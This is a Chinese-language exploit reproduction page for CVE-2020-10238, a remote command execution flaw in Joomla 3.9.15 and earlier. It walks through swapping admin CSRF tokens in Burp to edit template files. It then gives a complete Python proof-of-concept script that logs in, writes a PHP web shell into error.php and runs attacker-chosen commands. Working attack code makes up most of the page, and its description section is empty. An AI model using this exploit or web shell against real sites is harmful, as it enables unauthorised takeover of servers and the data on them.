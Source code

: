 （CVE-2020-10238）Joomal \<= 3.9.15 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

\<= 3.9.15

三、复现过程
------------

    http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==

使用admin进行登录

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId24.png)

### 思路：

-   首先超级管理员跟管理员的后台界面是不同的
-   将恶意代码添加到index.php里面
-   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId26.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId27.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId28.png)

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId29.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId30.png)

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId31.png)

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId32.png)

### poc

![](resource/(CVE-2020-10238)Joomla=3.9.15远程命令执行漏洞/media/rId34.png)

    #!/usr/bin/python
    import sys
    import requests
    import re
    import argparse

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n") + "[-] You are not admin account!"
            return None
        return match.group(1)
    def try_admin_login(sess,url,uname,upass):
        admin_url = url+'/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        # print token
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True

    def rce(sess,url,cmd):
        getjs = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D'
        resp = sess.get(getjs, verify=True)
        token = extract_token(resp)
        if (token==None) : sys.exit()
        filename='error.php'
        shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
        shdata_up = {
            'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
            'task': 'template.apply',
            token: '1',
            'jform[extension_id]': '506',
            'jform[filename]': '/' + filename
        }
        shreq = sess.post(shlink, data=shdata_up)
        path2shell = '/templates/protostar/error.php?cmd='+cmd
        # print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = sess.get(url + path2shell)
        shresp = shreq.text
        print shresp + '[+] Shell link: \n' + (url + path2shell)
        print '[+] Module finished.'

    def main() :
        
        # Construct the argument parser
        ap = argparse.ArgumentParser()
        # Add the arguments to the parser
        ap.add_argument("-url", "--url", required=True,
                        help=" URL for your Joomla target")
        ap.add_argument("-u", "--username", required=True,
                        help="username")
        ap.add_argument("-p", "--password", required=True,
                        help="password")
        ap.add_argument("-cmd", "--command", default="whoami",
                        help="command")
        args = vars(ap.parse_args())
        # target
        url = format(str(args['url']))
        print '[+] Your target: ' + url
        # username
        uname = format(str(args['username']))
        # password
        upass = format(str(args['password']))
        # command
        command = format(str(args['command']))
        
        sess = requests.Session()
        if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
        rce(sess,url,command)
    if __name__ == "__main__":
        sys.exit(main())

参考链接
--------

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238
